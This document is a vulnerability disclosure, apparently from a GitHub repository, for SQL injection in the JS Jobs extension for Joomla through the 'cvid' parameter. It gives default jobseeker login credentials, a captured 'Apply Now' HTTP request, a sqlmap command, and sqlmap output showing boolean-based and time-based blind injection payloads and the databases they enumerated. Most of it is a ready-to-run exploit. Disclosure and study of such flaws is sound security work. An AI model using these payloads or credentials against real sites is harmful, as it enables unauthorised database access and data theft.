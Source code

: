 # SQL injection in JS jobs version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** Pending

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
An SQL injection vulnerability exists in the JS Jobs extension (v1.4.2) via the 'cvid' parameter and is exploitable as the jobseeker user.

To exploit this vulnerability login as the jobseeker user with default credentials (jobseeker:demo) and go to 'jobseeker-controlpanel >> My Stuff >> Newest Jobs >> Newest Jobs >> Apply Now >> Apply Now' and capture the "Apply Now" request.

## HTTP Request
```
POST /index.php?option=com_jsjobs&task=jobapply.jobapplyajax HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 67aa5f9b49e233456b916ea62ef1447b=kjou43pssdvaa5plr84dhc8P64
Content-Length: 38
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/index.php/component/jsjobs/newest-jobs?Itemid=
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

jobid=1&cvid=1&coverletterid=4&uid=460
```

## POC

```
sqlmap -r req.txt --dbs --batch -p cvid --dbms=mysql --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cvid (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: jobid=1&cvid=(SELECT (CASE WHEN (7270=7270) THEN 1 ELSE (SELECT 6098 UNION SELECT 7386) END))&coverletterid=4&uid=460

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: jobid=1&cvid=1 AND (SELECT 6497 FROM (SELECT(SLEEP(5)))EAyv)&coverletterid=4&uid=460
---

available databases [2]:
[*] joomla_db
[*] information_schema
```
